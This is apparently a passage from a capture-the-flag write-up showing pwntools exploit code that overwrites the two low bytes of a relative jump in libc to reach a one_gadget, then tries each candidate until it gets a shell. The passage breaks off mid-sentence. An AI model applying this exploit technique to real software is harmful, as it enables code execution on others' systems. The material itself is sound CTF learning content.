 Getting the relative jump from the last 4 bytes of each opcode and getting positive or negative jump value.. (negative if it is 0xffff****)


```python
hits = []

for jump in jumps:
    if jump in candidates:
        unsignedint = GetInt(candidates[jump])

        base = jump+len(opcodes[jump])
        minjmp = base + Signed( GetInt(candidates[jump]) & 0xffff0000 )
        maxjmp = base + Signed( (GetInt(candidates[jump]) & 0xffff0000) + 0xffff )

        for gadget in one_gadgets:
            gadr = noaslrbase+gadget
            if minjmp <= gadr and gadr <= maxjmp:
                a = [jump+len(opcodes[jump])-4, gadr-minjmp, jump]
                hits.append(a)

```

Checking the minimum and maximum jump I would get by writing the 2 lowest bytes, and seeing if a gadget is in between. saving all the hits for later.

```python
for hit in hits:
    log.info(f" HIT: {hit}")
    try:
        jump = hit[2]
        code = disasm(b"".join([ int.to_bytes(x,1,'little') for x in opcodes[jump]]))
        print(f"{hex(jump)}: {opcodes[jump]} - {candidates[jump]} - {code} - {GetInt(candidates[jump])}")
        io = start()
        io.recvuntil(b'.text @ [')
        leak = int(io.recvuntil(b'-0x', drop=True),0)
        libcbase = leak - 0x28000

        where = hit[0] - noaslrbase + libcbase
        what = int.to_bytes(hit[1],2,'little')
        io.sendlineafter(b'> ', str(where))
        io.sendlineafter(b'> ', what)

        io.interactive()
        io.close()
    except:
        io.close()
```

Testing all the hits by running the binary for each one.

Finally I got a shell by overwriting the address that corresponds to 0x7ffff7dd4ae6 in NOASLR. Changing the call instruction to call this gadget:
